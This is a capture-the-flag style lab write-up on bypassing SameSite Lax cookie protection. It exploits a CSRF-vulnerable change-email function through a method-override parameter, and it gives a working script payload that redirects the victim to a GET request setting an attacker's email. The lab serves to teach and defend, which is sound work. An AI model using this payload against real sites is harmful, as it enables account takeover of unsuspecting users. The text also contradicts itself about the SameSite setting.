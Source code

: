 # SameSite Lax bypass via method override
# Objective
This lab's change email function is vulnerable to CSRF. \
To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
Website has `Change email` functionality which is not protected by `CSRF` token. There is `SameSite` option specified - Chrome enforces `Lax` by default.

|![](Images/image-25.png)|
|:--:| 
| *Test of change email functionality - CSRF token is not preset* |
|![](Images/image-26.png)|
| *Cookie configuration - no SameSite option specified* |

## CSRF Exploit
Changing request method and adding `_method=POST` parameter inn URL allows to send valid `Change email` request.

Exploit server configuration:
```
<script>
    document.location = "https://<id>.web-security-academy.net/my-account/change-email?email=attacker@attack.attack&_method=POST";
</script>
```

|![](Images/image-27.png)|
|:--:| 
| *Change email request via GET request* |
|![](Images/image-28.png)|
| *Exploit server configuration* |